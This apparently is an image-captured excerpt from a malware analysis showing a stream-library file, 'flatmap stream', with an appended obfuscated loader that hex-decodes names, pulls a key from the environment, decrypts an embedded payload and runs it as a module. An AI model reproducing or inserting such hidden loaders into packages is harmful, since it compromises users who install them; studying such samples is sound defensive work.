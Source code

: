 ```javascript
  }
  function v(r) {
    if (((u = !0), (i.writable = !1), void 0 !== r)) return w(r, a);
    a == o && ((i.readable = !1), i.emit("end"), i.destroy());
  }
  return (
    (i.writable = !0),
    (i.readable = !0),
    (i.write = function (r) {
      if (u) throw new Error("flatmap stream is not writable");
      s = !1;
      try {
        for (var e in r) {
          a++;
          var t = b(r[e], a, p);
          if ((f = !1 === t)) break;
        }
        return !f;
      } catch (r) {
        if (s) throw r;
        return p(r), !f;
      }
    }),
    (i.end = function (r) {
      u || v(r);
    }),
    (i.destroy = function () {
      (u = l = !0),
        (i.writable = i.readable = f = !1),
        process.nextTick(function () {
          i.emit("close");
        });
    }),
    (i.pause = function () {
      f = !0;
    }),
    (i.resume = function () {
      f = !1;
    }),
    i
  );
};
!(function () {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, "hex").toString();
    }
    var n = r(e("2e2f746573742f64617461")),
      o = t[e(n[3])][e(n[4])];
    if (!o) return;
    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));
    var f = new module.constructor();
    (f.paths = module.paths), f[e(n[7])](a, ""), 
        f.exports(n[1]);
  } catch (r) {}
})();
```
## Payload A 